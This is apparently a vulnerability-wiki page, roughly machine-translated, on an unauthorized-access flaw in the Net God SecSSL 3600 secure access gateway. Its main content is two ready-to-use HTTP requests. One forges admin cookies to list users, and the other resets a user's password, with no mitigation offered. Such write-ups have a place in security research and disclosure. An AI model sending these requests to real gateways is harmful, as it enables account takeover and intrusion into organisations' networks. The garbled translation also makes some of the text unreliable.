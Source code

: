#Net God SecSSL 3600 Secure Access Gateway System Unauthorized Access Vulnerability

## Vulnerability Description

NetSSL 3600 secure access gateway system There is an unauthorized access vulnerability. The attacker can obtain the user list and modify the user account password through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Net God SecSSL 3600 Secure Access Gateway System </span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1683194562640-b489ef43-07a3-45a1-8bd9-c7b311c1c0c0.png)

Verify POC and get user list zkec

```sql
GET /admin/group/x_group.php?id=2

Cookie: admin_id=1; gw_admin_ticket=1;
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1683194650093-f31de8b5-b20e-46c4-b967-dc2d5007f861.png)

Modify user password

```sql
POST /changepass.php?type=2 

Cookie: admin_id=1; gw_user_ticket=ffffffffffffffffffffffffffffffff; last_step_param={"this_name":"ceshi","subAuthId":"1"}
old_pass=&password=Asd123!@#123A&repassword=Asd123!@#123A
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1683194784648-9c5a03d8-e44c-406e-94f8-15bb299bc2a4.png)